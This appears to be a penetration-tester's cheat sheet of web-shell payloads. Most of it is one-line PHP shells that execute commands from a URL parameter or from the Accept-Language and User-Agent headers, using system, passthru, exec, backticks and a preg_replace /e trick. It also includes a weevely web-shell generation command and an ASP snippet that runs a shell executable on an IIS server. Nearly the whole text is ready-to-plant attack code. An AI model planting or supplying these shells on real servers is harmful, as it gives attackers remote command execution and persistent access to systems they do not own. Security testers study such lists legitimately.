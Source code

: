 # **php**

  
# Execute one command  
<?php system("whoami"); ?>  
  
# Take input from the url paramter. shell.php?cmd=whoami  
<?php system($_GET['cmd']); ?>  
  
# The same but using passthru  
<?php passthru($_GET['cmd']); ?>  
  
# For shell_exec to output the result you need to echo it  
<?php echo shell_exec("whoami");?>  
  
# Exec() does not output the result without echo, and only output the last line. So not very useful!  
<?php echo exec("whoami");?>  
  
# Instead to this if you can. It will return the output as an array, and then print it all.  
<?php exec("ls -la",$array); print_r($array); ?>  
  
# preg_replace(). This is a cool trick  
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>  
  
# Using backticks  
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>  
  
# Using backticks  
<?php echo `whoami`; ?>  
  
weevely generate password /root/webshell.php  
  
<%  
Dim oS  
On Error Resume Next  
Set oS = Server.CreateObject("WSCRIPT.SHELL")  
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)  
%>  
  
  
  
#php  
  
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>  
<?php system($_SERVER['HTTP_USER_AGENT'])?>  
  
# I have had to use this one  
<?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>